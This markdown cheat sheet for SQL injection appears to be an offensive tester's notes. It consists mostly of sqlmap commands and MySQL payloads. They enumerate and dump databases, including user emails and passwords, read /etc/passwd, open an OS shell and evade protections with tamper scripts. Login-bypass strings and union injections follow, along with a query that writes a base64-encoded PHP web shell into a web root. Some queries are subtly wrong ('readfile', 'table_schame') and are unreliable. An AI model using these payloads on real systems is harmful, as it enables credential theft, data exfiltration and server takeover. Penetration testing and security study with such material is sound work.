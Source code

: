 # SQLi
 - [payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

## SQLMap
### Tips
- Copy the request as cURL in the devtools and change curl to sqlmap
- Save burp requests to text files and load them in sqlmap with `sqlmap -r request.txt`
### Don't ask for user input
```bash
sqlmap ... --batch
```
### Fingerprint
```bash
sqlmap ... --current-user --banner --current-db --is-dba
```
#### Enum everything at once
```bash
sqlmap ... --all --batch -v 0
```
#### Enum schema
```bash
sqlmap ... --schema
```
#### Enum dbs
```bash
sqlmap ... --dbs
```
#### Enum tables
```bash
sqlmap ... -D dbname --tables
```
#### Enum columns
```bash
sqlmap ... -D dbname -T users --columns
```
#### Search table by string
```bash
sqlmap ... --search -T something
```
#### Search column by string
```
sqlmap ... --search -C something
```
### Dump everything
```bash
sqlmap ... --dump-all
```
### Dump table contents
```bash
sqlmap ... --dump -D dbname -T users -C email,password
```
### Dump w/ filters
```bash
sqlmap ... --dump -D dbname -T users --where="email LIKE '%something%'" --start=1 --stop=15
```
### Read file
```bash
sqlmap ... --file-read "/etc/passwd"
```
### Write file
```bash
sqlmap ... --file-write "file-to-write.txt" --file-dest "/target/destination/on/victim/file-to-write.txt"
```
### OS shell
```bash
sqlmap ... --os-shell

```
### Send traffic through proxy
```bash
sqlmap ... --proxy http://127.0.0.1:8080
```
### Save traffic to file
```bash
sqlmap ... -t ./out.txt
```
### Verbosity
#### Show errors
```bash
sqlmap ... --parse-errors
```
#### Verbose output
```bash
# No info logs
sqlmap ... -v 0
```
```bash
# All payloads
sqlmap ... -v 3
```
### Tuning
```bash
sqlmap ... --level=5 --risk=3
```
```bash
sqlmap ... --union-cols=6 --union-char='A'
```
```bash
sqlmap ... --prefix="\`)" --suffix="-- +" 
```
### Bypass protections
#### Randomize user agent
```bash
sqlmap ... --random-agent
```
#### CSRF token
```bash
sqlmap ... --data="...csrftoken=7c65966e-4a4a-408a-bd92-fe2a3a9ee094" --csrf-token="csrftoken"
```
#### Randomize value
```bash
sqlmap ... --randomize=some-field
```
### Tamper scripts
```bash
sqlmap --list-tampers
```
```
sqlmap ... --tamper=space2comment,between
```

## Mysql
- [payload all the things mysql](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)
### Fingerprint
```sql
select @@version
select sleep(3)
```
#### Enum dbs
```sql
select schema_name from information_schema.schemata
```
#### Enum tables
```sql
select table_name,table_schame from information_schema.tables where table_schema='zzz'
```
#### Enum columns
```sql
select column_name,table_name from information_schema.columns where table_name='zzz' and table_schema='zzz'
```
#### Enum current user
```sql
select user();
```
#### Enum current user privileges
```sql
select grantee,privilege_type FROM information_schema.user_privileges WHERE grantee="'<user>'@'<host>'"
```
#### Enum current user write file
Check if value is empty for access, whereas NULL means no access.
```sql
select variable_name,variable_value from information_schema.global_variables where variable_name='secure_file_priv'
```
### Read file
```sql
select readfile('/etc/passwd')
```
### Write file
```sql
select from_base64("PD9waHAgc3lzdGVtKCRfUkVRVUVTVFswXSk7ID8+") into outfile '/var/www/html/pwn.php'
```
### Login bypass
```sql
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
'='
'LIKE'
'=0--+
```
### Some union injection examples
```sql
' union select 1,username,password,4,5,6 from db1.users;-- -
```
```sql
' union select 1,user(),3,4,5,6;-- -
```
```sql
' union select 1,sleep(3),3,4,5,6;-- -
```
```sql
' union select 1,readfile("/etc/passwd"),3,4,5,6;-- -
```
